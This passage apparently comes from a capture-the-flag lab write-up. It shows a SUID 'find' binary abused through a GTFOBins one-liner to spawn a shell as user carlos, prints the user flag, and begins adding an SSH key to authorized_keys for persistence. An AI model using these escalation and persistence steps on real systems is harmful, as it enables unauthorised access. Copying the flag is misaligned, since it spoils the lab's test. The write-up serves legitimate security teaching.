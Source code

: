 ```console
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
hudson@airplane:/home/hudson$ 

```

To check if the find binary could be abused, I referred to [GTFOBins], a handy resource that lists known privilege escalation techniques using common binaries.

I found that if `find` has the SUID bit set, it can be exploited to spawn a root shell like this. So i tried it

```
find . -exec /bin/sh -p \; -quit
```

This granted me a shell running as the user `carlos`. With access to `carlos`, I moved to their home directory and captured the first flag:

```
find . -exec /bin/sh -p \; -quit
$ whoami
whoami
carlos
$ cd /home/carlos
cd /home/carlos
$ ls
ls
Desktop    Downloads  Pictures  Templates  user.txt
Documents  Music      Public    Videos
$ cat user.txt
cat user.txt
eebfca2ca5a2b8a56c46c781aeea7562
$ 

```

# SSH Access as carlos

To make persistence and further steps easier, I added my SSH public key to carlos’s account.

On my Kali machine, I copied the contents of my public key:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ cat /home/kali/.ssh/id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEb2nYCbJxhxV+hNepGV1nB0vOewtoF+32xY62Xch1/J kali@kali
```

Then, on the target machine (as carlos), I created or edited the `authorized_keys` file in `/home/carlos/.ssh` directory
